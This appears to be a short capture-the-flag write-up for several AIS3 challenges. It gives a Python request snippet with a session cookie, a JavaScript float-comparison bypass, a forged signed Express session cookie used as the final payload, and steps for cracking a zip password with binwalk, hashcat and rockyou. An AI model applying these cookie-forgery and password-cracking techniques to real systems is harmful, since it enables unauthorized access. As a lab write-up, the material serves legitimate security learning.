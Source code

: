 ```lus=py
	headers = {'Cookie': 'PHPSESSID=8b436fb10bbc2b9abf50b361a65d5906'}

	x = requests.post(url, data = myobj, headers=headers, allow_redirects = False).text
	x = requests.get(nurl, headers=headers, allow_redirects = False).text.split('Hello, <b>')[1]
	f = x.index('</b>')
	
	print(x[:f])
```
Get flag


### 🦏Rhino

Sensitive file:
`https://rhino.ais3.org/robots.txt`

package.json:
`https://rhino.ais3.org/package.json`

source code:
`https://rhino.ais3.org/chill.js`

```lua=js
n = 1e-31
if(n && (n+420)==420)
    pass
```

final payload:
```lua
//set cookie manually
[
    {
        "name": "express:sess.sig",
        "value": "5DwBleu7j3213lxSHUhqo9QbwIY",
    },
    {
        "name": "express:sess",
        "value": "eyJtYWdpYyI6MWUtMzF9",
    }
]
```

Get flag:
`https://rhino.ais3.org/flag.txt`

## misc

### 💤Piquero

Translate the [Braille](https://www.mathsisfun.com/braille-translation.html) into flag

### 🐥Karuego
Use **binwalk** to extrack the zip file padding after jpg file
Then use **hashcat** with **rockyou.txt** to brute force the password of zip file,  get the flag
